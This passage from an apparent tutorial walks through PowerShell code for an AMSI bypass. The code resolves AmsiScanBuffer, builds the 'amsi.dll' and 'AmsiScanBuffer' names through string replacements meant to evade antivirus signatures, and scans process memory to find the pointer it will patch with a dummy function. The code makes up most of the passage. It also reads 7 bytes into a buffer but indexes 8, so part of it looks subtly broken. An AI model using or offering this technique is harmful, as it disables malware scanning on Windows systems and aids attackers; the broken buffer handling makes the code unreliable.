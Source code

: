 ```
[IntPtr] $MethodPointer = $MethodFound.MethodHandle.GetFunctionPointer()
```

Next we will use `GetModuleHandle` and `GetProcAddress` to get the address of the `AmsiScanBuffer` function in `Amsi.dll`.

This is important because we are gonna search for `AmsiScanBuffer` address inside the `System.Management.Automation.dll` starting from the `ScanContent` routine that we have and keep searching backward, till we find the entry of `AmsiScanBuffer` and we replace it with the `dummy` function address.

We did some replacements on the `hello, world` string below to build the amsi strings in a stealthy way to bypass AV signature.

```
$string = 'hello, world'
$string = $string.replace('he','a')
$string = $string.replace('ll','m')
$string = $string.replace('o,','s')
$string = $string.replace(' ','i')
$string = $string.replace('wo','.d')
$string = $string.replace('rld','ll')

$string2 = 'hello, world'
$string2 = $string2.replace('he','A')
$string2 = $string2.replace('ll','m')
$string2 = $string2.replace('o,','s')
$string2 = $string2.replace(' ','i')
$string2 = $string2.replace('wo','Sc')
$string2 = $string2.replace('rld','an')

$string3 = 'hello, world'
$string3 = $string3.replace('hello','Bu')
$string3 = $string3.replace(', ','ff')
$string3 = $string3.replace('world','er')

$Address = [APIS]::GetModuleHandle($string)
[IntPtr] $funcAddr = [APIS]::GetProcAddress($Address, $string2 + $string3)
```

The next piece of code will search byte by byte and compare each 8 bytes to the address of `AmsiScanBuffer` till found.

```
[IntPtr] $MethodPointerToSearch = [Int64] $MethodPointer # PS5 - 11000000
[IntPtr] $Handle = [APIs]::GetCurrentProcess()
$dummy = 0


while($true) {
	$ReadedMemoryArray = [byte[]]::new(0x07)
	$test = [APIs]::ReadProcessMemory($Handle, $MethodPointerToSearch, $ReadedMemoryArray, 0x07,[ref]$dummy)
    $bytes = [byte[]]($ReadedMemoryArray[0], $ReadedMemoryArray[1], $ReadedMemoryArray[2], $ReadedMemoryArray[3], $ReadedMemoryArray[4], $ReadedMemoryArray[5], $ReadedMemoryArray[6], $ReadedMemoryArray[7])
    [IntPtr] $PointerToCompare = [bitconverter]::ToInt64($bytes,0)
    if ($PointerToCompare -eq $funcAddr) {
        Write-Host "Found @ $($MethodPointerToSearch)!" 
        [IntPtr] $MemoryToPatch = [Int64] $MethodPointerToSearch
        break
    }
    else{
    	[IntPtr] $MethodPointerToSearch = [Int64] $MethodPointerToSearch - 1
    }
}
```
